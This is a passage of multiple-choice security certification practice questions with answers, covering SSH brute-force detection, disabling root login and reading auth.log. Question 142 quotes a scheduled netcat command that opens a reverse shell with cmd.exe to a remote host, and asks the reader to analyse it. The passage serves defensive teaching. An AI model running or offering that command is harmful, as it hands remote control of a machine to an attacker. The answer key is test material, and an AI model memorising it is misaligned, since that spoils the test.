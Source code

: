         1. A user has forgotten their password.
        2. A brute-force attack against the root account.
        3. A misconfigured service.
        4. A denial-of-service attack against the root account.

        Answer:

        B. Repeated failures from the same host likely indicate a brute-force attack against the root account.
141.    Singh wants to prevent remote login attacks against the root account on a Linux system. What method will stop attacks like this while allowing normal users to use SSH?

        1. Add an `iptables` rule blocking root logins.
        2. Add root to the `sudoers` group.
        3. Change `sshd_config` to deny root login.
        4. Add a network IPS rule to block root logins.

        Answer:

        C. Fortunately, the `sshd` service has a configuration setting called `PermitRootLogin`. Setting it to `no` will accomplish Singh's goal.
142.    Azra's network firewall denies all inbound traffic but allows all outbound traffic. While investigating a Windows workstation, she encounters a script that runs the following command:

        `at \\workstation10 20:30 every:F nc -nv 10.1.2.3 443 -e cmd.exe`

        What does it do?

        1. It opens a reverse shell for host 10.1.2.3 using `netcat` every Friday at 8:30 p.m.
        2. It uses the `AT` command to dial a remote host via NetBIOS.
        3. It creates an HTTPS session to 10.1.2.3 every Friday at 8:30 p.m.
        4. It creates a VPN connection to 10.1.2.3 every five days at 8:30 p.m. GST.

        Answer:

        A. The `at` command can be used to schedule Windows tasks. This task starts `netcat` as a reverse shell using `cmd.exe` via port 443 every Friday at 8:30 p.m. local time. Azra should be concerned, as this allows traffic in that otherwise might be blocked.
143.    While reviewing the `auth.log` file on a Linux system she is responsible for, Tiffany discovers the following log entries:

        `Aug 6 14:13:06 demo sshd[5273]: PAM 5 more authentication failures; logname= uid=0 euid=0 tty=ssh ruser= rhost=127.0.0.1 user=root Aug 6 14:13:06 demo sshd[5273]: PAM service(sshd) ignoring max retries; 6> 3 Aug 6 14:13:07 demo sshd[5280]: Failed password for root from 127.0.0.1 port 38463 ssh2 Aug 6 14:13:07 demo sshd[5280]: error: maximum authentication attempts exceeded for root from 127.0.0.1 port 38463 ssh2 [preauth] Aug 6 14:13:07 demo sshd[5280]: Disconnecting: Too many authentication failures [preauth]`

        Which of the following has _not_ occurred?

        1. A user has attempted to reauthenticate too many times.
        2. PAM is configured for three retries and will reject any additional retries in the same session.
        3. `Fail2ban` has blocked the SSH login attempts.
        4. Root is attempting to log in via SSH from the local host.

        Answer:

        C. This output shows a brute-force attack run against the localhost's root account using SSH. This resulted in the root user attempting to reauthenticate too many times, and PAM has blocked the retries. `Fail2ban` is not set up for this service; thus, this is the one item that has not occurred. If it was enabled, the `Fail2ban` log would read something like `2019-07-11 12:00:00,111 fail2ban.actions: WARNING [ssh] Ban 127.0.0.1`.
144.    Naomi wants to analyze malware by running it and capturing what it does. What type of tool should she use?
